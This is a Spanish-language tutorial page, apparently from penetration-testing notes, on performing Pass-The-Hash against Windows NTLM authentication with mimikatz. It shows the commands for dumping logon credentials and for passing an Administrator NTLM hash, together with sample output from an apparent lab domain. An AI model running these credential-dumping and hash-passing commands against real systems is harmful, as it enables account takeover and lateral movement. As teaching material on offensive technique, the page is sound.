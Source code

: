 ```yaml
---
icon: passport
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pass-The-Hash con Windows

Esta tecnica consiste en el protocolo de autenticacion `NTLM` con sus dichos `hashes` este protocolo de autenticacion es menos seguro que el de `kerberos`, pero cuando nosotros nos conectamos de forma remota o nos conectamos mediante una `IP` y no mediante un dominio en muchos casos pasara autenticarse mediante el protocolo `NTLM` pero si lo hacemos atraves de un dominio, podremos hacerlo mediante `kerberos`, por lo que con `NTLM` al ser menos seguro podremos realizar este tipo de tecnicas que vamos a ver ahora.

A dia de hoy se sigue utilizando a nivel local, pero podremos especificar a `Windows` que no queremos este tipo de autenticacion de una forma, pero no es muy recomendable, ya que muchas maneras de autenticacion pueden deshabilitarse y dar problemas.

Si nosotros hemos obtenido las credenciales del `Administrador` del dominio por ejemplo mediante las `logon sessions` utilizando `mimikatz` como hemos visto anteriormente:

```powershell
sekurlsa::logonpasswords
```

Info:

```
Authentication Id : 0 ; 7531224 (00000000:0072ead8)
Session           : Interactive from 0
User Name         : Administrator
Domain            : CORP
Logon Server      : DC01
Logon Time        : 20/01/2025 10:23:12
SID               : S-1-5-21-3352250647-938130414-2449934813-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : a87f3a337d73085c45f9416be5787d86
         * SHA1     : 34957e9ba3455a4a99d722b48693ac1123ba5dba
         * DPAPI    : b937fc9669fa922df0050d0d2f6d5de4
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Hemos intentado `crackear` el `hash` `NTLM` pero pongamos que no hemos obtenido exito.

Pero lo que si podemos hacer es realizar un `Pass-The-Hash` con `mimikatz` utilizando el `hash` del `Administrador` de la siguiente forma:

```powershell
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:a87f3a337d73085c45f9416be5787d86
```

Lo que va hacer `mimikatz` es crear una nueva `logon session` dentro de esta maquina (Ya que somos `administradores` locales de esta maquina) va a sobreescribir el `hash` que haya asociada a ella en memoria por este `hash` del usuario `administrador`, despues va a copiar el `Token de acceso` que tenemos asociado a este proceso y se lo va añadir tambien a esta `logon session`, y una vez echo eso va a ejecutar una `cmd` como dicho usuario.

Info:

```
user    : Administrator
domain  : corp.local
program : cmd.exe
impers. : no
NTLM    : a87f3a337d73085c45f9416be5787d86
  |  PID  3448
  |  TID  3228
  |  LSA Process is now R/W
  |  LUID 0 ; 7674536 (00000000:00751aa8)
  \_ msv1_0   - data copy @ 00000224E7C04E80 : OK !
  \_ kerberos - data copy @ 00000224E7D777C8
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 00000224E7679D38 (32) -> null
```

Y veremos algo asi:

<figure><img src="../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

Y con esto ya tendremos un `cmd` como el usuario `Administrador` del dominio.
